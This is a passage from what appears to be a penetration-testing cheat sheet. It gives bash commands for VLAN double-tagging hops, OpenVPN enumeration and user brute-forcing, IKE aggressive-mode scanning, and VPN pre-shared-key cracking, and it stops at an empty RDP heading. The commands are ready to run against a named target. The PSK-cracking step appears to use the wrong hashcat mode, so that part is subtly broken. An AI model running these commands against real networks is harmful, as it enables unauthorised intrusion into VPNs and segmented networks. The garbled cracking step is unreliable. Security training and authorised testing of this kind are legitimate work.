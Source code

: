**VLAN Hopping**
```bash
# Install VLAN tools
sudo apt install vlan

# Create VLAN interface
vconfig add eth0 100
ifconfig eth0.100 192.168.100.10 netmask 255.255.255.0 up

# Double tagging attack
vconfig add eth0 10
vconfig add eth0.10 20
ifconfig eth0.10.20 192.168.20.10 netmask 255.255.255.0 up
```

## Remote Access and VPN Attacks

### VPN Security Testing

#### OpenVPN Exploitation**
```bash
# Enumerate OpenVPN service
nmap -sV -p 1194 target.com
nmap -sU -p 1194 target.com

# Test for user enumeration
openvpn-brute.py --host target.com --port 1194 --users userlist.txt

# Certificate analysis
openssl x509 -in client.crt -text -noout
openssl rsa -in client.key -text -noout
```

**IPSec VPN Attacks**
```bash
# Install ike-scan
sudo apt install ike-scan

# Enumerate IKE services
ike-scan -M target.com
ike-scan -A target.com
ike-scan --showbackoff target.com

# Aggressive mode attack
ike-scan -M -A target.com

# PSK cracking with hashcat
hashcat -m 5600 captured_hash.txt wordlist.txt
```

### RDP and Remote Desktop Attacks
